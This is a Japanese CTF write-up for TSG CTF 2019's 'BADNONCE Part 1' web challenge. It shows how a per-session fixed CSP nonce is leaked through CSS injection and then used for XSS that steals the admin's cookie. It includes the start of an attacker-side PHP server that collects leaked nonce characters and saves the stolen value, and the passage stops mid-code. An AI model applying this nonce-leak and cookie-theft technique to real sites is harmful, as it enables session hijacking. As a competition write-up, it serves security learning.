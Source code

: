 ```yaml
---
title: TSG CTF write-up (Web)
tags: [参加記, CTF]
date: 2019-05-05
---
```


[TSG CTF](https://ctftime.org/event/758)にチームNaruseJunで出ました。4099ptsを獲得して3位でした。

[TSG CTF](https://ctftime.org/event/758)

私はWeb問のみを解きました。以下write-upです。

# BADNONCE Part 1 (247pts)

CSPが有効になっているページでXSSしてCookieを盗ってください、という問題でした。

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-<?= $nonce ?>';">
```

問題名が **BADNONCE** なので明らかにnonceの実装が悪そうです。
実際、以下のようにセッションIDに対してnonceが固定なので、これが漏れるとXSSが可能になります。

```php
session_start();
$nonce = md5(session_id());
```

件のnonceは、ページ内の要素の属性として存在しています。

```html
<script nonce=<?= $nonce ?>>
				console.log('Welcome to the dungeon :-)');
</script>
```

ところで、このページでは`script-src`のみ制限されているので、たとえばスタイルシートなどは外部ソースから読み込み放題です。
したがって、CSS Injectionが可能です。セレクタを工夫することによって、要素の属性値を特定することができますね。

[CSS Injection 再入門 – やっていく気持ち](https://diary.shift-js.info/css-injection/)

ただし、管理者のブラウザを模したクローラは、毎回異なるPHPSESSIDを持つため、1度の起動で最後までnonceを抜きとって、XSSを踏ませるところまでやらないといけません。
ちょっと面倒ですが、管理者に攻撃車が用意したURLをIFRAMEで開き続けるページを踏ませて、InjectするCSSを変えながら、最終的にXSSを発火させるようにしました。
以下のような実装になりました。Web問のExploitにしてはちょっと重めかも。もっと頭のいい方法が存在する可能性もあり。

```php
<?php
	if (array_key_exists("save", $_GET)) {
		file_put_contents("flag.txt", $_GET["save"] . PHP_EOL, LOCK_EX | FILE_APPEND);
	}
	else if (array_key_exists("nonce", $_GET)) {
		$nonce = file_get_contents("nonce.txt");
		if (strlen($nonce) < strlen($_GET["nonce"])) {
			file_put_contents("nonce.txt", $_GET["nonce"], LOCK_EX);
		}
	}
	else if (array_key_exists("css", $_GET)) {
		header("Content-Type: text/css");
		echo("script { display: block }" . PHP_EOL);

		$nonce = file_get_contents("nonce.txt");
		$chars = str_split("0123456789abcdef");

		foreach ($chars as $c1) {
			foreach ($chars as $c2) {
				$x = $nonce . $c1 . $c2;
```
